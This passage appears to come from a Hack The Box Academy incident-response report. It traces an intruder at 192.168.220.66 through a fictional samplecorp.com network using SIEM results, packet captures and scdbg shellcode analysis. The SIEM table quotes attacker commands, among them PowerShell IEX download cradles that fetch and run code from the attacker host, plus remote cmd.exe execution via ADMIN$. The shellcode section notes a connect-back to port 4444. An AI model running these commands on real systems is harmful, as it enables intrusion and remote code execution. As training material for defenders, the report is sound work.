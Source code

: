 **Brief Analysis of 192.168.220.66**

From the logs, we identified four hosts on the network segment with corresponding IP addresses and hostnames. The host `192.168.220.66`, previously observed in the logs of `WKST01.samplecorp.com`, confirms the presence of an unauthorized entity in the internal network.

| IP              | Hostname              |
| --------------- | --------------------- |
| 192.168.220.20  | DC01.samplecorp.com   |
| 192.168.220.200 | WKST01.samplecorp.com |
| 192.168.220.101 | HR01.samplecorp.com   |
| 192.168.220.202 | ENG01.samplecorp.com  |

The below table is the result of a SIEM query that aimed to identify all instances of command execution initiated from `192.168.220.66`, based on data from `WKST01.samplecorp.com`.

| event\_data.CommandLine.keyword: Descending                                                                                                                                      | beat.hostname.keyword: Descending | Count |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------- | ----- |
| `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`                                                                                                                    | WKST01                            | 5     |
| `cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`                                                                                                                   | WKST01                            | 4     |
| `powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX` | WKST01                            | 2     |
| `whoami`                                                                                                                                                                         | WKST01                            | 1     |
| `...`                                                                                                                                                                            | ...                               | ...   |
| `powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m`                                                     | HR01                              | 1     |

The results suggest that the unauthorized entity has successfully infiltrated the hosts: `WKST01.samplecorp.com` and `HR01.samplecorp.com`.

**HR01.samplecorp.com**

`HR01.samplecorp.com` was investigated next, as the unauthorized entity, `192.168.220.66`, was shown to establish a connection with `HR01.samplecorp.com` at the earliest possible moment in the packet capture.

![](https://academy.hackthebox.com/storage/modules/238/6.png)

Network traffic details suggest a buffer overflow attempt on the service running at port `31337` of `HR01.samplecorp.com`.

![](https://academy.hackthebox.com/storage/modules/238/7.png)

The network traffic was exported as raw binary for further analysis.

![](https://academy.hackthebox.com/storage/modules/238/8.png)

The extracted binary was analyzed in a shellcode debugger, `scdbg`.

`Scdbg` reveals that the shellcode will attempt to initiate a connection to `192.168.220.66` at port `4444`. This confirms that there has been an attempt to exploit a service running on port `31337` of `HR01.samplecorp.com`.
